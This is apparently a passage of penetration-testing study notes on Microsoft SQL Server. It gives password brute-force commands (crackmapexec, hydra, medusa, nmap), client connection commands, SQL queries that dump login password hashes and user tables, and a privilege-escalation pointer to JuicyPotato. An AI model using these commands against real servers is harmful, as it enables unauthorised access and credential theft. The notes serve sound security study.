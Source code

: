The user running MSSQL server will have the privilege token **SeImpersonatePrivilege** enabled. You will probably be able to escalate to Administrator using this and [JuicyPotato](https://github.com/ohpe/juicy-potato)

### 4.14.1. MSSQL Bruteforcing

```sh
# Be carefull with the number of password in the list, this could lock-out accounts
# Use the NetBIOS name of the machine as domain, if needed
crackmapexec mssql $VICTIM_IP -d DOMAINNAME -u usernames.txt -p passwords.txt
hydra -V -f -L /path/to/usernames.txt –P /path/to/passwords.txt $VICTIM_IP mssql
medusa -h $VICTIM_IP –U /path/to/usernames.txt –P /path/to/passwords.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=usernames.txt,passdb=passwords.txt,ms-sql-brute.brute-windows-accounts $VICTIM_IP
```

More great tips on [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

### 4.14.2. MSSQL Interaction

**Connecting to the MSSQL server**

From kali, for interactive session:

```sh
# simplest tool for interactive MSSQL session
impacket-mssqlclient USERNAME:PASSWORD@VICTIM_IP -windows-auth
# requires double quotes for xp_cmdshell strings

# alternative option, can use single quotes for xp_cmdshell strings
sqsh -S $VICTIM_IP -U 'DOMAIN\USERNAME' -P PASSWORD [-D DATABASE]
```

From Windows:

```bat
sqlcmd -S SERVER -l 30
sqlcmd -S SERVER -U USERNAME -P PASSWORD -l 30
```

**Useful commands:**

```sql
-- show username
select user_name();
select current_user;  -- alternate way
-- show server version
select @@version;
-- get server name
select @@servername;
-- show list of databases ("master." is optional)
select name from master.sys.databases;
exec sp_databases;  -- alternate way
-- note: built-in databases are master, tempdb, model, and msdb
-- you can exclude them to show only user-created databases like so:
select name from master.sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
-- getting table names from a specific database:
select table_name from somedatabase.information_schema.tables;
-- getting column names from a specific table:
select column_name from somedatabase.information_schema.columns where table_name='sometable';
-- get credentials for 'sa' login user:
select name,master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;
-- get credentials from offsec database (using 'dbo' table schema) user table
select * from offsec.dbo.users;
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744